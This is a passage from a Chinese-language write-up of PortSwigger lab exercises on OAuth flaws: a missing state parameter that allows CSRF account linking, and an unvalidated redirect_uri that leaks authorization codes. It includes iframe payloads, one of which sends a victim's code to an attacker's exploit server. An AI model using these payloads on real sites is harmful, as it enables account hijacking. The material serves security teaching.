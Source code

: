 在此题中，除了正常的登陆方式，还有一个通过社交媒体登录的选项：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308171550901.png)

正常登录之后，页面会显示该用户的API KEY.对于没有绑定社交媒体账号的用户，可以通过点击绑定重定向到oauth服务器进行社交账号绑定，完成绑定的OAuth的流程后会被重定向回博客网站。绑定之后退出，重新使用社交媒体登录，发现网站已经自动保存了登陆状态，说明在OAuth过程中session cookie被保存到后端。

对OAuth认证流请求进行研究，发现并没有state函数用以排除csrf攻击，可以从这里入手：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308171602555.png)

打开拦截，重新发送绑定社交媒体的请求，放行**GET /auth?client_id[...]**请求，下一个被拦截的请求就是oauth-linking服务器传递的账户单一验证码.丢弃该请求，将该url复制并构造CSRF payload,通过exploit服务器传送给后端：

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/oauth-linking?code=STOLEN-CODE"></iframe>
```

在http history中可以发现，绑定社交帐号后之所以可以直接登录，就是客户端直接通过GET发送了之前传递给后端的code，才能达到验证的效果；

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308171613803.png)

该payload在目标加载网页iframe元素的时候就会执行oauth-linking请求并把攻击者的社交帐号绑定到目标的账户上。这样就获得了网站的管理员权限.

#### 4.2.4 OAuth机制缺陷导致的令牌泄露（OAuth 2.0已修复）

https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri

根据授权类型，代码或令牌将通过受害者的浏览器发送到授权请求参数`/callback`中指定的端点。如果 OAuth 服务无法正确验证`redirect_uri`，攻击者可能能够构造类似 CSRF 的攻击，欺骗受害者的浏览器启动 OAuth 流，将代码或令牌发送到攻击者控制的`redirect_uri`.

在授权代码流的情况下，攻击者可能会在使用受害者的代码之前窃取该代码。然后，他们可以将此代码发送到客户端应用程序的合法`/callback`端点（原始端点`redirect_uri`）以访问用户的帐户。在这种情况下，攻击者甚至不需要知道客户端密钥或生成的访问令牌。只要受害者与 OAuth 服务有有效的会话，客户端应用程序就会简单地代表攻击者完成代码/令牌交换，然后再将其登录到受害者的帐户。

更安全的授权服务器`redirect_uri`在交换代码时也需要发送一个参数。然后，服务器可以检查这是否与它在初始授权请求中收到的匹配，如果不匹配则拒绝交换。由于攻击者无法控制第二次的参数，所以就可以有效避免上述漏洞。

这题的认证过程和上一题基本类似，在通过社交媒体绑定后再次通过社交媒体登录不会销毁登录过程中连接的OAuth认证流，也就是说客户端一直与OAuth服务器保持着活跃会话。

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308171628609.png)

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308171635628.png)

在OAuth认证流参数被传递后服务器立刻callback.

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308171645258.png)

OAuth认证流由于redirect_uri无缝跳转的性质可以在此启动攻击，发现修改redirect_uri的值不会产生报错，后端并没有对重定向的网址做过滤。测试后端对session cookie的返回功能：

exploit server payload:

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308171712850.png)

```html
<iframe src="https://oauth-0ac5006a03f4502180ff479d027d0021.oauth-server.net/auth?client_id=kql1gpibwugw5lpwq98u0&redirect_uri=https://exploit-0a01004903cd505780b448f1011d0087.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```
